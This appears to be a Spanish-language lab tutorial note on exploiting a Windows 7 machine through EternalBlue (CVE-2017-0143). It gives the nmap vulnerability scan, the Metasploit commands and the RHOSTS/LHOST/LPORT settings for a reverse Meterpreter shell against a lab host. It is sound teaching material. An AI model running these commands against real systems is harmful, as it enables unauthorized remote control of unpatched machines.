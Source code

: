 Hemos hecho la búsqueda de equipos en la red como hemos aprendido anteriormente y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades

```Bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado:

![[Imagenes/image 10.png|image 10.png]]

  

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

  

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```Bash
    sudo msfdb init && msfconsole 
    ```
    
      
    
    > [!important] `**sudo msfdb init**`:
    > 
    > - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    > - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    > 
    > `**&&**`:
    > 
    > - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    > 
    > `**msfconsole**`:
    > 
    > - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    

O desde el **menú de aplicaciones**:

![[Imagenes/image 1 7.png|image 1 7.png]]

  

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![[Imagenes/image 2 6.png|image 2 6.png]]
    
    ![[Imagenes/image 3 5.png|image 3 5.png]]
    
      
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![[Imagenes/image 4 4.png|image 4 4.png]]
    
      
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![[Imagenes/image 5 4.png|image 5 4.png]]
        
          
        
        > [!important] Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        > 
        > **Exploit**:
        > 
        > - Un _**exploit**_ es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        > 
        > **Payload**:
        > 
        > - Un _**payload**_ es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        > - Los payloads pueden realizar varias acciones: abrir una puerta trasera (_backdoor_), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        
          
        
        ![[Imagenes/image 6 3.png|image 6 3.png]]
        
          
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![[Imagenes/image 7 2.png|image 7 2.png]]
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![[Imagenes/image 8 2.png|image 8 2.png]]
            
        
          
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
          
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![[Imagenes/image 9 2.png|image 9 2.png]]
        
          
        
        ![[Imagenes/image 10 2.png|image 10 2.png]]
        
          
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![[image 11.png]]
        
        ![[image 12.png]]
        
          
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![[image 13.png]]
        
        ![[image 14.png]]
        
        ![[image 15.png]]
        
          
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.